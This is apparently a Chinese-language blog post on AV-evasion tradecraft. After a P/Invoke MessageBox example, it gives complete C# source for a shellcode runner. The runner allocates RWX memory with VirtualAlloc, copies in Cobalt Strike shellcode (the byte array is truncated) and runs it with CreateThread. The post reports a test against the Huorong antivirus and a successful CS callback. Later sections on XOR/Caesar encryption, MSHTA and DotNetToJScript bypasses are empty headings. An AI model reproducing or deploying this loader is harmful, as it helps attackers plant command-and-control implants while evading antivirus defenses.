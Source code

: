 ```yaml
---
layout: post
title: Shellcode Bypass AV

---
```




## 0x01.Make a shellcode runner

本文用c#来完成实现shellcode runner，首先要知道如何使用c#调用windows API，C#调用win32 API一般使用P/Invoke的方法在DLL中使用win32api

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210828122140.png)

比如实现一个简单的messagebox功能，要先把c的数据类型转换为c#的数据类型，完整代码如下

```c#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;
namespace ConsoleApp1
{
 class Program
 {
 [DllImport("user32.dll", CharSet = CharSet.Auto)]
 public static extern int MessageBox(IntPtr hWnd, String text, String caption, 
int options);
 static void Main(string[] args)
 {
 MessageBox(IntPtr.Zero, "This is a messagebox", "This is my caption", 0);
 }
 }
}
```

实现shellcode加载器的话，首先需要三个windows API函数VirtualAlloc（主要用来实现调用进程的虚地址空间）

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210828123343.png)

CreateThread（创建线程函数）

WaitForSingleObject （等待线程结束后再执行其他）具体原因后文会说

使用使用P/Invoke的方法在DLL中加入这三个windows API，然后用cobaltstrike生成c#的shellcode

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210830212058.png)

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210830213005.png)

shellcode runner完整代码如下

```c#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;
namespace ShellcodeRunner
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint
       flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
       IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32
       dwMilliseconds);
        static void Main(string[] args)
        {
            /* length: 894 bytes */
            byte[] buf = new byte[894] { 0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc8, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0...............};

            int size = buf.Length;
            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(buf, 0, addr, size);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0,

IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);//让程序执行完毕shellcode后再结束
        }
    }
}
```

火绒测试一下，meterpreter的特征

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210830220719.png)

测试下程序运行，没有问题可以直接上线CS

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20210830220839.png)

## 0x02.加密shellcode 

### Caesar加密

### XOR加密

## 0x03.时间判断

## 0x04.DoNetToJscript

## 0x05.MSHTA Bypass AV



